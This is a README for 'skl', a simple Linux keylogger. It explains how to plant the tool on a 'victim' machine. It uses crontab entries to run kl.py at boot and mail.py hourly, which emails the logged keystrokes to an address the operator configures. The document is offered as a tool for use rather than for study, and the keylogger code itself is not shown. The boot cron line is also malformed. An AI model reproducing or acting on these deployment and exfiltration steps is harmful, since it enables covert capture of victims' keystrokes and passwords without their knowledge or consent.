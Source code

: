 # skl = Simple Key Logger

Just a simple keylogger for linux

### Installing the required dependencies

    pip3 install -r requirements.txt

### Plant it own victim laptop
copy the files to any directory
on victim linux machine open linux terminal and crontab to run it at boot

    crontab -e

and at  the end of crontab add the following

    @reboot * * * * cd (directory of keyloger) ; ./kl.py &
    0 * * * * cd (directory of keyloger) ; ./mail.py

restart the crontab or reboot

### Configuring to mail it to your email
open the mail.py with your favorite text editor
and put the email and pass word in the email and password variable and the email to recive the log file.

for example:
```python
email = 'sender@gmail.com'
password = 'password'
semail =  'reciver@gmail.com'
```